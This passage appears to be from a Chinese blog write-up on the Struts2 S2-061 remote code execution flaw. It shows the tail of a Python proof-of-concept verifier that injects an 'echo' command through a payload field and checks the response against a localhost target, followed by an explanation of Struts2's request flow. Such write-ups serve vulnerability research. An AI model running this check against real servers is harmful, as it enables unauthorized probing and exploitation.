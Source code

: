 ```python

        :param:

        :return str True or False
        """
        
        try:
            check_payload = {
                'name': self.payload['name'].replace('cmd_data', 'echo ' + self.capta),
                'age': ''
            }
            check_req = requests.post(self.url, data = check_payload, headers = self.headers)
            check_str = re.sub('\n', '', check_req.text)
            result = re.findall('<input type="text" name="name" value=".*? id="(.*?)"/>', check_str)
            if self.capta in result[0]:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_061 = S2_061_BaseVerify('http://localhost:8080/s2_061_war_exploded/index.action')
    print(S2_061.run())
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](https://taomujian.github.io/img/S2-061/images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.
